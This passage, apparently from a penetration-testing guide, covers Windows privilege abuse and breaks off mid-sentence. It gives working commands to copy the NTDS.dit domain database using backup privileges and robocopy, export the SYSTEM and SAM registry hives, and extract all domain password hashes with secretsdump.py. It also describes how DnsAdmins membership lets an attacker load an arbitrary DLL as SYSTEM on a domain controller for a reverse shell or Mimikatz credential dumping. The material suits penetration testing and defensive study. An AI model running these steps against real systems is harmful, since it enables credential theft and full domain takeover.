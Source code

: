 As in the local attack, you can now copy the privileged file **`NTDS.dit`**:

```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Another way to copy files is using [**robocopy**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy)**:**

```
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

Then, you can easily **steal** the **SYSTEM** and **SAM**:

```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

Finally you can **get all the hashes** from the **`NTDS.dit`**:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

## DnsAdmins

A user who is member of the **DNSAdmins** group or have **write privileges to a DNS** server object can load an **arbitrary DLL** with **SYSTEM** privileges on the **DNS server**.\
This is really interesting as the **Domain Controllers** are **used** very frequently as **DNS servers**.

As shown in this \*\*\*\* [**post**](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common):

* DNS management is performed over RPC
* [**ServerLevelPluginDll**](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to **load** a custom **DLL** with **zero verification** of the DLL's path. This can be done with the `dnscmd` tool from the command line
* When a member of the **`DnsAdmins`** group runs the **`dnscmd`** command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
* When the **DNS service is restarted**, the **DLL** in this path will be **loaded** (i.e., a network share that the Domain Controller's machine account can access)
* An attacker can load a **custom DLL to obtain a reverse shell** or even load a tool such as Mimikatz as a DLL to dump credentials.

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL

Then, if you have a user inside the **DNSAdmins group**, you can make the **DNS server load an arbitrary DLL with SYSTEM privileges** (DNS service runs as `NT AUTHORITY\SYSTEM`). You can make the DNS server load a **local or remote** (shared by SMB) DLL file executing:
